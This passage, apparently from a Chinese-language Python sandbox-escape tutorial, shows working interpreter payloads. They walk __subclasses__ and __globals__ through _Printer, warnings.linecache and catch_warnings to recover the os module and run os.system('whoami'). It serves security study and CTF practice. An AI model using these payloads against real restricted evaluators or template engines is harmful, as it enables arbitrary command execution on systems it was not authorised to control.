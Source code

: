 ```python
>>> ''.__class__.__mro__[-1].__subclasses__()[71]._Printer__setup.__globals__['os']
<module 'os' from '/Users/macr0phag3/.pyenv/versions/2.7.15/lib/python2.7/os.pyc'>

>>> # 为了避免 index 位置问题，可以这样写：
>>> [i._Printer__setup.__globals__['os'] for i in ''.__class__.__mro__[-1].__subclasses__() if i.__name__ == "_Printer"]
<module 'os' from '/Users/macr0phag3/.pyenv/versions/2.7.15/lib/python2.7/os.pyc'>
```

os 又回来了。并且 site 中还有 `__builtins__`。

这个方法不仅限于 A->os，还阔以是 A->B->os，比如 2.x 中的 `warnings`：

```python
>>> import warnings
>>> 
>>> warnings.os
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
AttributeError: 'module' object has no attribute 'os'
>>> 
>>> warnings.linecache
<module 'linecache' from '/Users/macr0phag3/.pyenv/versions/2.7.15/lib/python2.7/linecache.pyc'>
>>>
>>> warnings.linecache.os
<module 'os' from '/Users/macr0phag3/.pyenv/versions/2.7.15/lib/python2.7/os.pyc'>
```

在继承链中就可以这样（ py3.x 中已经移除了这里 `__globals__` 的 `linecache`）：

```python
>>> [].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__['os'].system('whoami')
macr0phag3
0
>>> # 为了避免 index 位置问题，可以这样写：
>>> [i.__init__.__globals__['linecache'].__dict__['os'].system('whoami') for i in ''.__class__.__mro__[-1].__subclasses__() if i.__name__ == "catch_warnings"]
```

顺便说一下，`warnings`这个库中有个函数：`warnings.catch_warnings`，它有个`_module`属性：

```python
    def __init__(self, record=False, module=None):
...
        self._module = sys.modules['warnings'] if module is None else module
...
```

所以通过`_module`也可以构造 payload（py3.x 中已经移除了 `catch_warnings` 的 `linecache`）：

```python
>>> [x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.linecache.os.system('whoami')
macr0phag3
0
```
